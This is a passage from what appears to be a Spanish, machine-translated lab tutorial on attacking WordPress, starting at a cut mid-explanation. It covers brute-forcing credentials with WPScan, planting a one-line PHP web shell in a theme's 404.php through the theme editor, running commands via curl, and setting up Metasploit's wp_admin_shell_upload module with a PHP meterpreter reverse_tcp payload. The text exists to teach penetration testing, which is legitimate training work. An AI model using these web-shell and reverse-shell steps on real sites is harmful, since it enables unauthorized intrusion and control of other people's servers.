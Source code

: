 El`--password-attack`La bandera se usa para suministrar el tipo de ataque. El`-U`El argumento toma una lista de usuarios o un archivo que contiene nombres de usuario. Esto se aplica al`-P`Opción de contraseñas también. El`-t`La bandera es el número de hilos que podemos ajustar hacia arriba o hacia abajo según. WPSCAN pudo encontrar credenciales válidas para un usuario,`john:firebird1`.

---

# **Ejecución del código**

Con el acceso administrativo a WordPress, podemos modificar el código fuente de PHP para ejecutar los comandos del sistema. Inicie sesión en WordPress con las credenciales para el`john`Usuario, que nos redirigirá al panel de administración. Hacer clic en`Appearance`en el panel lateral y seleccione Editor de temas. Esta página nos permitirá editar el código fuente de PHP directamente. Se puede seleccionar un tema inactivo para evitar corromper el tema principal. Ya sabemos que el tema activo es la gravedad de transporte. En su lugar, se puede elegir un tema alternativo como veinte diecinueve.

Hacer clic en`Select`Después de seleccionar el tema, y podemos editar una página poco común como`404.php`Para agregar un shell web.

Código:php

```php
system($_GET[0]);

```

El código anterior debe permitirnos ejecutar comandos a través del parámetro GET`0`. Agregamos esta línea única al archivo justo debajo de los comentarios para evitar demasiado modificación del contenido.

![](https://academy.hackthebox.com/storage/modules/113/theme_editor.png)

Hacer clic en`Update File`en la parte inferior para guardar. Sabemos que los temas de WordPress se encuentran en`/wp-content/themes/<theme name>`. Podemos interactuar con el shell web a través del navegador o usar`cURL`. Como siempre, podemos utilizar este acceso para obtener una carcasa inversa interactiva y comenzar a explorar el objetivo.

Atacando a WordPress

```
xnoxos@htb[/htb]$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=iduid=33(www-data) gid=33(www-data) groups=33(www-data)

```

El[wp_admin_shell_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/)El módulo de Metasploit se puede usar para cargar un shell y ejecutarlo automáticamente.

El módulo carga un complemento malicioso y luego lo usa para ejecutar una capa de meterpreter PHP. Primero necesitamos establecer las opciones necesarias.

Atacando a WordPress

```
msf6 > use exploit/unix/webapp/wp_admin_shell_upload

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local

```
